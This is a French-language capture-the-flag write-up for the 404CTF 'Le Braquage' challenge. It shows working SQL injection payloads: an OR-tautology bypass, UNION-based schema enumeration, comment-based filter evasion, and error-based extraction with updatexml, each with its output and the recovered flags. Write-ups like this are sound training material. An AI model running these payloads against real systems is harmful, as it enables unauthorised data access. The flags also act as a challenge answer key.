 # Le Braquage

On se connecte au [site](https://le-braquage.404ctf.fr) et on y découvre trois portail d'accès qui semblent nous indiquer d'exploiter des **injections SQL**

## Première page : 
En execuatnt l'injection SQL : 
```sql
' OR '1'='1 
```

Dans le champ identifiant, on découvre le tableau : 

| Id | Pseudonyme | Téléphone | Adresse | Code |
| :-------------: | :-------------: | :-------------: | :-------------: | :-------------: |
| 1 | RIRI | 0145489625 | 5 avenue des groseilles | OpérationEpervier |
| 2 | FIFI | 0145889625 | 1 rue des myrtilles | OpérationFaucon |
| 3 | LOULOU | 0115789625 | 1 rue des pommes | OpérationFaucon |
| 456 | JAJA | 0145769625 | 1 rue des pommes | OpérationGorfou |
| 472 | RORO | 0189999625 | 5 boulevard des poires | OpérationFaucon |
| 7456 | TITI | 404CTF{0145769456} | 404CTF{21 rue des kiwis} | OpérationGorfou |
| 7865 | DEDE | 0145781225 | 3 avenue des oranges | OpérationMouette |
| 16579 | DIDI | 0145789625 | 1 rue des pommes | OpérationEpervier |

D'où les deux premiers Flags :
>404CTF{0145769456}

>404CTF{21 rue des kiwis}

---

## Deuxième page :

En executant l'injection :

```sql
 cn ' UNION select 1, schema_name from INFORMATION_SCHEMA.SCHEMATA -- -
```
On obtient le nom de la Database :

| Pseudo | Coopératives |
| :-------------: | :-------------: |
| 1 | UnionVendeurs |

On peut donc explorer les tables de cette Database :

```sql
cn' union select 1, table_name from information_schema.tables where table_schema='UnionVendeurs'-- -
```

On obtient le nom des la tables:

| Pseudo | Coopératives |
| :-------------: | :-------------: |
| 1 | Users |
| 1 | cooperatives |

Et en explorant la table Users :

```sql
cn' union select 1, column_name from information_schema.columns where table_name='Users'-- -
```
on obtient le nom des colonnes :

| Pseudo | Coopératives |
| :-------------: | :-------------: |
| 1 | id |
| 1 | nom |
| 1 | prenom |


Et finalment, en executant l'injection : 
```sql
cn' Union select nom, prenom from Users-- -
```
| Pseudo | Coopératives |
| :-------------: | :-------------: |
| Assin | Marc |
| Outan | Laurent |
| Gator | Ali |
| Reptile | Eric |
| Culé | Roland |
| 404CTF{Vereux} | 404CTF{UnGorfou} |
| Abbé | Oscar |
| Conda | Anna |

>À noter qu'il n'y a rien à exploiter dans la colonne id

On trouve deux nouveaux flags :

>404CTF{Vereux}

>404CTF{UnGorfou}
---
## Troisième page :
une simple injection sql avec des commentaires à la place des espaces pour eviter les filtres : 
```sql
'/**/OR/**/'1'='1 
```

| Code | Date | Heure |
| :-------------: | :-------------: | :-------------: |
| OpérationEpervier | 2021-11-02 | 19h |
| OpérationMouette | 2021-09-14 | 19h |
| OpérationFaucon | 2022-01-01 | 20h |
| OpérationGorfou | 404CTF{2022-07-14} | 404CTF{01hDuMatin} |

On récupère à nouveaux deux flags : 

>404CTF{2022-07-14}

>404CTF{01hDuMatin}


Il manque donc qu'une seule chose : **le mot de passe**...

après beaucoup de recherches on touve que sur la troisiemme page, les **erreurs passent avant le filtre** et donc en utilisant le bon payload, (merci [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) encore une fois ...) on trouve  après énumération de la db: 
```sql
' and updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() LIMIT 1,1)),null)-- -
```

```text
Array(    [0] => HY000    [1] => 1105    [2] => XPATH syntax error: 'mdp')RequĂȘte invalide : ne pas mettre d'espace
```

la fameuse colonne ‘mdp’ est découverte et on obtient le mot de passe :

```sql
' and updatexml(null,concat(0x0a,(select mdp from Password LIMIT 5,1)),null)-- -
```

```text
Array(    [0] => HY000    [1] => 1105    [2] => XPATH syntax error: '404CTF{GorfousAuPouvoir}')RequĂȘte invalide : ne pas mettre d'espace
```


donc on a le flag final : 
>404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}